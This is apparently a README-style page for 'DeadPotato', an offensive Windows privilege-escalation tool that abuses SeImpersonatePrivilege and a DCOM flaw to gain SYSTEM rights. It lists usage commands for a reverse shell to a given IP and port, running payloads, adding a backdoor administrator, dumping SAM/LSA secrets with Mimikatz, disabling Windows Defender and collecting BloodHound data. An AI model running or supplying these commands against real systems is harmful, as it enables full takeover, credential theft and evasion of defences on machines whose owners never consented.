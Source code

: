# Potato Exploits

### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

